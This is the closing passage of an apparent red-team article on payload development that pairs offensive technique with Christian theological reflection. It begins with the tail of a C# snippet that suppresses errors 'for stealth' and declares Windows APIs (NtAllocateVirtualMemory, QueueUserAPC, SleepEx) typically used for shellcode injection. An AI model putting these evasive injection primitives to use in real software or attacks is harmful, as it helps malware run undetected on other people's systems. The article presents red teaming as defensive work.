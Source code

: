 ```
            catch (Exception ex)
            {
                // No error message for stealth
            }
        }

        // Import stealthy Windows API functions
        [DllImport("ntdll.dll", SetLastError = true)]
        private static extern uint NtAllocateVirtualMemory(
            IntPtr ProcessHandle,
            ref IntPtr BaseAddress,
            IntPtr ZeroBits,
            ref UIntPtr RegionSize,
            uint AllocationType,
            uint Protect
        );

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern IntPtr GetCurrentThread();

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern bool QueueUserAPC(IntPtr pfnAPC, IntPtr hThread, IntPtr dwData);

        [DllImport("kernel32.dll", SetLastError = true)]
        private static extern uint SleepEx(uint dwMilliseconds, bool bAlertable);
    }
}
```

🕊️ “In your light do we see light.” — Psalm 36:9
The red teamer works in shadows not to remain hidden, but to reveal what defenders cannot see.

Our path mirrors the redemptive arc of revelation: observe, respond, expose, redeem. To do this righteously, we do not rush — we build, reflect, and deploy with precision.

---

## VIII. Conclusion: THe Grace of Precision

Payload development is more than technical ingenuity — it’s an exercise in discernment. The infralapsarian red teamer doesn’t blindly attack. He observes, interprets, and responds. He sees the system’s misplaced trust and, like a good theologian, moves to correct it — not with destruction, but with conviction.

We do not build to glorify compromise. We build to expose assumptions, to harden the flock, and to prepare the defenders for what they’ve been too quick to trust.

> “Examine everything carefully; hold fast to that which is good.” — 1 Thessalonians 5:21

Through reconnaissance, payload crafting, stealthy execution, and theological reflection, we’ve mapped a framework that honors both discipline and danger — all in service of truth.

---
